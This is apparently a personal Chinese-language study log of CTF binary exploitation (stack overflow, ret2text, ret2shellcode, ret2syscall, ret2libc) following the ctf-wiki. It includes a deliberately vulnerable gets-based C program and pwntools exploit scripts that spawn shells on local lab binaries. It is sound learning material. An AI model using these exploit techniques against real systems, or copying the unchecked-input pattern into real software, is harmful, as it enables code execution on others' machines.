

# PWN

计划是先跟着ctf-wiki走，期间也做做攻防世界的初始题。

[TOC]

## 栈溢出

​       栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变。这种问题是一种特定的缓冲区溢出漏洞，类似的还有堆溢出，bss 段溢出等溢出方式。栈溢出漏洞轻则可以使程序崩溃，重则可以使攻击者控制程序执行流程。此外，我们也不难发现，发生栈溢出的基本前提是：

- 程序必须向栈上写入数据。

- 写入的数据大小没有被良好地控制。

  利用关键点：**寻找危险函数**、**确认填充长度**

### 基本ROP

#### 1、栈溢出example

```C
#include <stdio.h>
#include <string.h>

void success(void)
{
    puts("You Hava already controlled it.");
}

void vulnerable(void)
{
    char s[12];

    gets(s);
    puts(s);

    return;
}

int main(int argc, char **argv)
{
    vulnerable();
    return 0;
}
```

可以看到虽然定义了success函数，但是并没有真正使用。

```
gcc -m32 -fno-stack-protector stack_example.c -o stack_example 
```

因为IDA的版权原因，下面用的是ghidra。

success函数位置，即后面要覆盖ret的位置


查看gets的参数到ebp的距离为0x14，填充字符长度为0x14 + 0x4


```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x080491b6
## 构造payload
payload = b'a' * 0x14 + b'bbbb' + p32(success_addr)
print(p32(success_addr))
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```


#### 2、ret2text

ret2text 即控制程序执行程序本身已有的的代码 (即`.text`段中的代码) 。

main函数中的gets是危险函数


未调用的secure函数中存在system(/bin/sh)，ret覆盖地址为0x0804863a


gets的参数这个只有相对于esp的位置，通过gef调试确认此时的ebp地址


```
gdb ./ret2text
# 在gets函数处下断点
b *0x080486ae
r
```


填充长度=ebp - esp - 0x16 + 0x4 = 0x70

```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./ret2text')
success_addr = 0x804863a
## 构造payload
payload = b'a' * 0x6c + b'bbbb' + p32(success_addr)
print(p32(success_addr))
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```


#### 3、ret2shellcode

ret2shellcode，即控制程序执行 shellcode 代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。**通常情况下，shellcode 需要我们自行编写，即此时我们需要自行向内存中填充一些可执行的代码**。


同样的危险函数gets，不过下面copy了100个字符到buf2，可以作为shellcode写入的位置。整个操作流程应该是将shellcode写入buf2处，再通过gets函数将ret地址覆盖到buf2，获取程序控制权。


查看bss段（不知道怎么根据变量查看所属段）发现buf属于bss段，bss段起止位置在0x804a040-0x804a0e3


通过gdb vmmap查看bss段的可执行情况，发现可读可写不可执行，应该就是ctfwiki中提到的内核版本原因。


gets处下断点计算填充长度。


在strncpy处下断点，说实话没看出来到底是哪个参数被用给了buf当地址，看了一圈只有0x804a080在bss段内，就它了。



```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

# 计算可得填充字符数位112
sh.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))
sh.interactive()
```

无可执行权限，执行失败。


#### 4、ret2syscall

ret2syscall，即控制程序执行系统调用，获取 shell。

`checksec rop`


```
NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。
```


不存在后门函数，无法写shellcode，通过修改寄存器的值进行系统调用。通过ROPgadget工具寻找可用的片段。

```
pip install capstone
https://github.com/JonathanSalwan/ROPgadget
报错：pkg_resources.ResolutionError: Script 'scripts/ROPgadget' not found in metadata at '/usr/local/lib/python3.8/dist-packages/ROPGadget-7.4.dist-info'
解决：cp -r scripts/ /usr/local/lib/python3.8/dist-packages/ROPGadget-7.4.dist-info
```


先压地址再压参数。

```
ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
ROPgadget --binary rop  --string '/bin/sh' 
ROPgadget --binary rop  --only 'int'                 
```


```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```


#### 5、ret2libc1


有/bin/sh存在


在ghidra的import表中发现system


事实上这里system的地址是错的，抱着试试的心态把CTF wiki上的地址0x08048460填进去发现还对了，什么刻舟求剑。

OK，发现地址实际是在注释的XREF交叉引用里。


```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./ret2libc1')
binsh_addr = 0x8048720
system_addr = 0x8048460
## 构造payload
payload = flat([b'a' * 112, system_addr, b'b' * 4, binsh_addr])
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```


#### 6、ret2libc2


相比于上题，这次没有直接搜到字符串sh的位置，system位置在0x8048490


我的想法是把/bin/bash字符串写入栈中，把原地址换成/bin/bash写入的地址即可。（猜错了好像

这段完全没理清楚


据ctfwiki，ret到了gets的位置，但后面的pop_ebx，包括buf2能理解这是想干嘛，但是不理解操作是如何达到该效果的。如112字节溢出将ret覆盖为了gets_plt，此时应该是call了get函数，那pop_ebx和buf2是如何参与后续操作的。


**gets_plt：**gets函数的地址

**system_plt：**system函数的地址

**pop_ebx:** 控制ebx gadget的位置

**buf2：**缓冲区位置

问gpt的时候给我画了这么个堆栈的图，不知道栈顶的buf2是怎么来的。


call了一下ede求助，他说到x86架构上使用的调用约定：先压参数，再压ret，因此对gets_plt来说pop_ebx就是返回地址，而buf2就是参数。恍然大悟的同时也惊讶这payload还挺精致的。

总结一下：思路没有转变过来，对栈的理解不够深入。我没有把pop_ebx当成一个返回地址，而是当成了一个类似主动调用的call，只看到了pop_ebx和buf2的联动，孤立了gets_plt。


#### 7、ret2libc3

checksec开了NX保护。

```
system 函数属于 libc，而 libc.so 动态链接库中的函数之间相对偏移是固定的。
即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变。而 libc 在 github 上有人进行收集，如下
https://github.com/niklasb/libc-database
```
涉及到了PLT和GOT的相关知识，做一下记录

https://blog.csdn.net/linyt/article/details/51635768


```
https://saku376.github.io/2021/04/30/%E9%80%9A%E8%BF%87GDB%E8%B0%83%E8%AF%95%E7%90%86%E8%A7%A3GOT%E8%A1%A8%E5%92%8CPLT%E8%A1%A8/
总结来说就是，GOT保存了程序中所要调用的函数的地址，运行一开时其表项为空，会在运行时实时的更新表项。一个符号调用在第一次时会解析出绝对地址更新到GOT中，第二次调用时就直接找到了GOT表项所存储的函数地址直接调用了。
```

